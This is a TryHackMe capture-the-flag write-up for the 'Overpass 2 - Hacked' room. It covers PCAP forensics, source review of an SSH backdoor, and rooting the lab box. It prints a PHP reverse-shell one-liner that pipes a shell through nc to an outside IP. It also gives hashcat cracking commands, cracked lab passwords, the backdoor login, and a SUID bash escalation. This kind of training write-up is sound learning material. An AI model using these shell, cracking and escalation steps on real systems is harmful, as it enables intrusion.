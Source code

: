 ```yaml
---
Platform:
  - TryHackMe
Difficulty: Easy
Status: Rooted/Finished
Blog Posting: Not Posted
Type: Machine
---
```

In this writeup we are going to solve the Overpass 2 - Hacked room from TryHackMe.

Link to the Room : [https://tryhackme.com/room/overpass2hacked](https://tryhackme.com/room/overpass2hacked)

  

Lets Start……

  

## Task 1

First Download the Task files given. The given task file is a [PCAP](https://www.solarwinds.com/resources/it-glossary/pcap) file. Open the given pcap file in wireshark.

If we take a look at the traffic, we can see that there is a POST request to `/development/upload.php`.

![[Overpass 2 - Hacked/assets/Untitled.png|Untitled.png]]

Right click on that particular row and follow the TCP stream to see more details about that POST request.

`Right Click → Follow → TCP Stream` ( or ) Select the column and press `ctrl + alt + shift + T` to view the TCP Stream.

![[Overpass 2 - Hacked/assets/Untitled 1.png|Untitled 1.png]]

In the TCP stream we can see that the attacker have uploaded a file named `payload.php` which has the following PHP reverse shell code:

```
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```

Further investigating, If we follow the TCP stream of the packet no 29, we see the password that the attacker used for the user james: `whenevernoteartinstant`.

![[Overpass 2 - Hacked/assets/Untitled 2.png|Untitled 2.png]]

![[Overpass 2 - Hacked/assets/Untitled 3.png|Untitled 3.png]]

And if we scroll down, we can see that the attacker is downloading a ssh-backdoor from `[https://github.com/NinjaJc01/ssh-backdoor](https://github.com/NinjaJc01/ssh-backdoor)`

![[Overpass 2 - Hacked/assets/Untitled 4.png|Untitled 4.png]]

We can also see that the attacker has also viewed the `/etc/shadow` file.

![[Overpass 2 - Hacked/assets/Untitled 5.png|Untitled 5.png]]

I tried to crack these passwords with the [fasttrack.txt](https://raw.githubusercontent.com/drtychai/wordlists/master/fasttrack.txt) word-list. I used hashcat for cracking the passwords.

Command: `hashcat -m 1800` `**hash.txt**` `**./fasttrack.txt**`

I was able to crack the passwords for 4 users:

`paradox: secuirty3`

`szymex: abcd123`

`bee: secret12`

`muirland: 1qaz2wsx`

We have find the answers for all the questions that were asked for the Task 1.

![[Overpass 2 - Hacked/assets/Untitled 6.png|Untitled 6.png]]

Moving on to Task 2

## Task 2

Now we have to analyse the code of the backdoor that we found in the last task. So first I downloaded the source code from [https://github.com/NinjaJc01/ssh-backdoor](https://github.com/NinjaJc01/ssh-backdoor), using the following command

`git clone https://github.com/NinjaJc01/ssh-backdoor.git`

![[Overpass 2 - Hacked/assets/Untitled 7.png|Untitled 7.png]]

After downloading I opened the downloaded `ssh-backdoor` folder in VScode. If we take a look at the `main.go` file, we can see a variable `hash` with a value of `bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3` which is the default hash used by this backdoor.

![[Overpass 2 - Hacked/assets/Untitled 8.png|Untitled 8.png]]

From the main function we can devise that the backdoor is running on port `2222`.

![[Overpass 2 - Hacked/assets/Untitled 9.png|Untitled 9.png]]

Further, if we scroll down, we can see that the backdoor requires a hash for creating backdoor as a parameter with a flag `-a` . If the hash is not given as a parameter then it uses the default hash value that we found above.

![[Overpass 2 - Hacked/assets/Untitled 10.png|Untitled 10.png]]

If we take a look at the TCP stream where we found the backdoor in the last task, we can see that the attacker has given a hash as parameter while he was executing the backdoor. The hash that the attacker used is: `6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed`

![[Overpass 2 - Hacked/assets/Untitled 11.png|Untitled 11.png]]

On further investigating, if we take a look at the function `passwordHandler` , we can see that the backdoor uses a salt `1c362db832f3f864c8c2fe05f2002a05` to create the password.

![[Overpass 2 - Hacked/assets/Untitled 12.png|Untitled 12.png]]

Now we can crack the hash that the attacker given as a parameter to create the backdoor password using the salt to find the password.

The command to crack the password is :

`hashcat -m 1710 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05 /usr/share/wordlists/rockyou.txt --force -O -w 4`

![[Overpass 2 - Hacked/assets/Untitled 13.png|Untitled 13.png]]

We have cracked the hash and the password is `november16` .

We have find the answers for all the questions that were asked for the Task 2.

![[Overpass 2 - Hacked/assets/Untitled 14.png|Untitled 14.png]]

Moving on to Task 3.

## Task 3

First start the machine. Wait for 5 minutes and give the machine time to start all the services.

After 5 minutes, run a standard nmap scan.

Command: `nmap -A -T4 -v <targetIP>`

![[Overpass 2 - Hacked/assets/Untitled 15.png|Untitled 15.png]]

We can see that there is web-server running on port `80` and the backdoor is running on port `2222`.

If we check the web-server that is running on port `80`, we can see the message `**H4ck3d by CooctusClan**`. Apart from the message there is nothing interesting in the website.

![[Overpass 2 - Hacked/assets/Untitled 16.png|Untitled 16.png]]

Next we can use the backdoor to get access to the target machine.

Command: `ssh james@<target_IP> -p 2222 -oHostKeyAlgorithms=+ssh-rsa`

Use the password that we found in the last task: “november16”

![[Overpass 2 - Hacked/assets/Untitled 17.png|Untitled 17.png]]

Now we got access to the target machine. Now if we check the user directory we can find the user flag.

![[Overpass 2 - Hacked/assets/Untitled 18.png|Untitled 18.png]]

Now we have to find the root flag. According to the hint we have to check whether attacker had left a way to escalate our privileges. So I started to surf through all the directories.

![[Overpass 2 - Hacked/assets/Untitled 19.png|Untitled 19.png]]

In the home directory I found something interesting.

![[Overpass 2 - Hacked/assets/Untitled 20.png|Untitled 20.png]]

It has a `.suid_bash` file. I searched [gtfobins](https://gtfobins.github.io/) for “bash SUID” and found this [https://gtfobins.github.io/gtfobins/bash/#suid](https://gtfobins.github.io/gtfobins/bash/#suid).

![[Overpass 2 - Hacked/assets/Untitled 21.png|Untitled 21.png]]

According to the above explanation, if we execute this `.suid_bash` file with a flag `-p`, we will get back a shell with root privileges.

![[Overpass 2 - Hacked/assets/Untitled 22.png|Untitled 22.png]]

After executing the command: `./.suid_bash -p` , I got back a shell with root privileges.

Now I checked the `/root` directory.

![[Overpass 2 - Hacked/assets/Untitled 23.png|Untitled 23.png]]

We successfully got the root flag.

We have find the answers for all the questions that were asked for the Task 3.

![[Overpass 2 - Hacked/assets/Untitled 24.png|Untitled 24.png]]

  

Thankyou………….